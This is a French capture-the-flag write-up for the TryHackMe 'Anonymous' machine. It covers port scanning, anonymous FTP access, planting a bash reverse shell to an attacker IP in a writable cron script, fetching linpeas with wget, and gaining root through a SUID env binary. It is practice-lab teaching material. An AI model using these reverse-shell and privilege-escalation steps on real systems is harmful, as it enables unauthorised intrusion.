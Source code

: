 # Write-up Anonymous

Cette machine de niveau medium est disponible sur le site [TryHackMe](https://tryhackme.com/room/anonymous). 
> Elle est relativement simple pour ceux qui souhaitent débuter. 

### Enumération

On commence par récolter des informations en scannant la machine avec l'outil [NMAP](https://nmap.org/).

```
sudo nmap -sV 10.10.141.191
```
Ce scan étant relativement rapide, on obtient après quelques secondes les ports ouverts :

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-19 15:58 UTC
Nmap scan report for 10.10.160.187
Host is up (0.081s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.00 seconds
```
Le résultat suivant indique que les ports **21, 22, 139 et 445** sont ouverts. On a donc 3 services potentiellement intéressants à explorer : le FTP, le SSH et le SMB (Samba). 

### Flag user

On va tout d'abord jeter un coup d'oeil du côté du FTP. On se connecte avec la commande suivante :

```
ftp 10.10.141.191
```
> Certains serveurs FTP autorisent un accès sans authentification. Il suffit simplement d'utiliser le nom d'utilisateur *anonymous* et de laisser le champ de mot de pase vide.

Dans notre cas, le serveur est bien accessible publiquement. On voit d'ailleurs qu'il contient un dossier *scripts* contenant plusieurs fichiers.

```
ftp> ls
229 Entering Extended Passive Mode (|||35707|)
150 Here comes the directory listing.
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000         1032 Jun 19 14:01 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
```
On récupère les fichiers sur notre ordinateur avec la syntaxe get + nom du fichier. 
Le fichier *clean.sh* retient mon intention, c'est un script bash qui semble être écrit de façon à être automatisé avec un *cron job*.
> Un cron job permet d'éxecuter des scripts n'importe quand. Cela permet de les programmer pour s'éxecuter toutes les 5 min, 1 jour, 2 mois etc... Retrouvez une documentation [ici](https://www.hostinger.fr/tutoriels/cron-job).

```bash
!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done>
fi
```

Si le script est exécuté régulièrement, on peut s'en servir pour y intégrer un reverse shell. 
> Un reverse shell est un shell contrôlé à distance. On ne se connecte pas à la machine cible, c'est elle qui va se connecter à nous. Il nous suffit d'écouter un port en attente d'une connexion.

Je suis allé récupérer un reverse shell sur ce [Github](https://github.com/swisskyrepo/PayloadsAllTheThings) qui répertorie une liste de payloads très utiles :

```bash
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
```
On remplace *10.0.0.1* par notre propre IP et le *4242* par le port d'écoute de notre choix. Ici on va prendre le 1234.
On ajoute cette ligne à la toute fin du script *clean.sh*. Quand il va s'éxécuter, notre payload va être aussi lu. 

On retourne sur le FTP pour upload le script modifié avec la commande *put*. On met aussi le port 1234 en écoute avec netcat :

```
sudo nc -lnvp 1234
```
Quelques secondes plus tard, on obtient un shell avec le nom d'user *namelessone*. On peut lire le user.txt qui contient le flag user.

### Flag root

Il faut maintenant obtenir un accès total à la machine cible. C'est à dire avoir tous les droits avec l'utilisateur *root*.

On va utiliser l'outil [Linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) qui va travailler à notre place et nous donner les potentiels vecteurs d'élévation de privilèges.

Je lançe un serveur HTTP sur ma propre machine :

```
python3 -m http.server 8080
```
Puis je récupère le script *linpeas.sh* sur la machine cible pour l'exécuter :

```
wget mettreIpIci:8080/linpeas.sh
```
Après observation, on remarque que le binaire env semble être un vecteur intéréssant à explorer. Un petit tour sur [GTFOBins](https://gtfobins.github.io/gtfobins/env/) pour créer une copie du SUID avec les privilèges root :

```
./env /bin/sh -p
```
On peut exécuter le binaire :

```
/usr/bin/env /bin/sh -p
```
**Bingo !** On est maintenant root sur la machine ! On peut récupérer le flag root.txt dans le dossier /root pour terminer le challenge.

